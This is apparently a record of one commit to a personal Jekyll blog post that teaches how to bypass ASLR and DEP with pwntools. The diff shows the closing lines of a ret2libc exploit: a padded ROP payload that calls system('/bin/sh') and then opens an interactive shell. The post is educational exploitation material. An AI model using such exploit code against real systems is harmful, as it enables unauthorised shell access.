

Before and after one commit to Apex95/apex95.github.io, a Jekyll site: the page built from _posts/2019-07-03-bypassing-aslr-dep-getting-shells-with-pwntools.markdown, in a window 1280 px wide and 900 px high, scrolled down 6662 px. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some web fonts are replaced; comment, search, counter and statistics services are not loaded; some of the changed text lies outside the part shown.

Commit message:
fixed code issue in tutorial

````diff
--- a/_posts/2019-07-03-bypassing-aslr-dep-getting-shells-with-pwntools.markdown
+++ b/_posts/2019-07-03-bypassing-aslr-dep-getting-shells-with-pwntools.markdown
@@ -239,9 +239,10 @@ sh_libc_address = puts_libc_address - puts_libc_offset + sh_libc_offset
 payload = 'A'*56 + p64(pop_rdi_ret_address) + p64(sh_libc_address) + p64(system_libc_address) + p64(main_address)
 
 r.sendline(payload)
-print(r.recvline()) # hi there
 
-r.sendline(payload)
+#print(r.recvline())
+
+#r.sendline(payload)
 
 r.interactive()
 ```
````
Also changed, not shown: other parts of _posts/2019-07-03-bypassing-aslr-dep-getting-shells-with-pwntools.markdown (+1 -1 lines), 1 other file.
